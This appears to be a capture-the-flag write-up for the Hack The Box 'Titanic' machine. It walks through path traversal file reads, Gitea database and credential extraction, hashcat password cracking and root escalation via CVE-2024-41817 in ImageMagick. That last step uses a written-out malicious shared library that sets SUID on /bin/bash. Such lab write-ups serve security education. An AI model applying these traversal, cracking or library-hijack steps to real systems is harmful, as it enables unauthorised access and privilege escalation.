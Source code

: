 ```yaml
---
title: Titanic - Linux Easy - HTB Writeup 
description:
slug: titanic-htb-writeup-linux-easy
date: 2025-06-21 00:00:00+0000
image: Titanic.png
categories:
    - Hack
    - Linux
    - Easy
tags:
    - Path traversal
    - Gitea
    - ImageMagick
    - CVE-2024-41817
# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Summary
User: Path traversal on the titanic.htb application\
Root: Arbitrary code execution via CVE-2024-41817(ImageMagick).

## Enumeration
Using an nmap scan, we can identify a web service on port 80 and SSH exposed on port 22.

{{< highlight go "hl_lines=1 3 7" >}}
nmap -Pn -p 80,22 10.129.175.139 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
{{< /highlight >}}

## User
### Path traversal
While exploring `titanic.htb`, we notice that if we submit the booking form, a JSON of our booking data is downloaded.\
![](Titanic-web.png)
{{< highlight go "hl_lines=1" >}}
$ cat 5a41afb2-469c-4d75-8faf-4c1b70d398be.json | jq .
{
  "name": "test",
  "email": "test@test.com",
  "phone": "test-01",
  "date": "2025-06-18",
  "cabin": "Deluxe"
}
{{< /highlight >}}
On Burp, the `ticket` parameter via the `/download` endpoint allows specifying the file to download.\
![](Burp-ticket.png)\
The lack of control or validation on this parameter allows us to read files on the machine via a path traversal.\
This vulnerability allows us to retrieve the following information:\
`/etc/passwd` indicates the existence of the user `developer`.\
`/etc/hosts` allows us to retrieve a new subdomain, `dev`.\
![](Burp-LFI1.png)\
![](Burp-LFI2.png)

### Gitea
For now, we can't go further, let’s explore `dev.titanic.htb`.\
We find an instance of [Gitea](https://about.gitea.com/), a self-hosted version control tool using git.
![](Gitea-1.png)\
We find two publicly accessible repositories, `docker-config` and `flask-app` .\
![](Gitea-2.png)\
In the `docker-config` repository, we find MySQL crendentials in the file `/mysql/docker-compose.yml`.\
The nmap scan did not identify MySQL access, we keep these credentials aside.\
![](Gitea-3.png)\
Still in this same repo, in `/gitea/docker-compose.yml`, we find the path to a volume.\
![](Gitea-volume.png)\
Using this path, the previously found path traversal vulnerability and Gitea documentation, we can retrieve the Gitea configuration file.\
After several attempts, it is located at `/home/developer/gitea/data/gitea/conf/app.ini`.\
In this config file, we find the path of the Gitea database, we use the website to retrieve it.\
![](Gitea-4.png)\
Exploring this database with sqlite3, we can retrieve the hashes of `developer` and `administrator`.\
{{< highlight go "hl_lines=1" >}}
$ sqlite3 gitea.db                                                                                                               
...
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
{{< /highlight >}}
The hashes are in PBKDF2 format and can be converted using [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000) to be compatible with Hashcat. Then, we can easily retrieve the `developer` account password.
{{< highlight go "hl_lines=1 6" >}}
$ sqlite3 gitea.db 'select salt,passwd from user;' | ./gitea2hashcat.py
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=

$ hashcat -a 0 -m 10900 hash /usr/share/wordlists/rockyou.txt
...
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
{{< /highlight >}}
We use this password to SSH into the machine and retrieve the flag.\
{{< highlight go "hl_lines=1 3 5" >}}
$ ssh developer@titanic.htb
...
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt
e85d89a008cff72094f40882eb2f7d9b
{{< /highlight >}}

## Root
### CVE-2024-41817(ImageMagick)
Once on the machine, we notice the script `identify_images.sh` in `/opt/scripts/`.
{{< highlight go "hl_lines=1 24" >}}
developer@titanic:/opt$ tree .
.
├── app
│   ├── app.py
│   ├── static
│   │   ├── assets
│   │   │   └── images
│   │   │       ├── entertainment.jpg
│   │   │       ├── exquisite-dining.jpg
│   │   │       ├── favicon.ico
│   │   │       ├── home.jpg
│   │   │       ├── luxury-cabins.jpg
│   │   │       └── metadata.log
│   │   └── styles.css
│   ├── templates
│   │   └── index.html
│   └── tickets
├── containerd  [error opening dir]
└── scripts
    └── identify_images.sh

8 directories, 10 files

developer@titanic:/opt$ cat scripts/identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
{{< /highlight >}}
This command identifies the format and characteristics of files ending with .jpg in `/opt/app/static/assets/images/` and stores them in `/opt/app/static/assets/metadata.log`.\
We notice the timestamp of metadata.log is updated every minute, the script is owned by root so it could be in a cron job.\
The commands `truncate`, `find`, `xargs` are not exploitable here. `Imagemagick` being a tool used in CTFs in vulnerable versions, we look for CVEs associated with its version `7.1.1-35`.\
{{< highlight go "hl_lines=1" >}}
developer@titanic:~$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
...
{{< /highlight >}}

We find [this advisory on Github](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) regarding `CVE-2024-41817` allowing arbitrary code execution on versions <= 7.1.1-35.\
To obtain code execution as root, we will adapt the POC mentioned by replacing id to set the SUID on /bin/bash.
{{< highlight go "hl_lines=1 11 12 14 16" >}}
developer@titanic:/tmp$ cat libxcb 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /bin/bash");
    exit(0);
}

developer@titanic:/tmp$ gcc -x c -shared libxcb.c -fPIC -o ./libxcb.so.1
developer@titanic:/tmp$ mv libxcb.so.1 /opt/app/static/assets/images/

developer@titanic:/tmp$ ls -ld /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
developer@titanic:/tmp$ bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) egid=0(root) groups=0(root),1000(developer)
bash-5.1# ls /root
cleanup.sh  images  revert.sh  root.txt  snap
{{< /highlight >}}

## Resources
> [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000)\
> [Advisory Github for CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)